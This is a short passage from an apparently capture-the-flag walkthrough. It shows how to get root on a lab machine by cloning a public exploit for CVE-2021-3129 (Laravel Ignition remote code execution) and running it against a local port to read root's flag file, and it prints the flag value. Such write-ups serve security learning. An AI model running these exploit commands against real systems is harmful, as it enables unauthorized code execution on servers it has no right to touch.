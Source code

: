 
### Get root flag 

- Download the exploit code 
```
# git clone https:/github.com/nth347/CVE-2021-3129_exploit.git
```
![](./IMG/39.png)
- Set up the exploit code
```
# chmod +x exploit.py
```

![](./IMG/40.png)
- Execute the exeploit 

```
# ./exploit.py http:/127.0.0.1:8000 Monolog/RCE1 "cat /root/root.txt"
```
- Get root Flag : ``` 25bbd7f2260e744706ebcd166f1cb7a6```

![](./IMG/41.png)

## Reference 
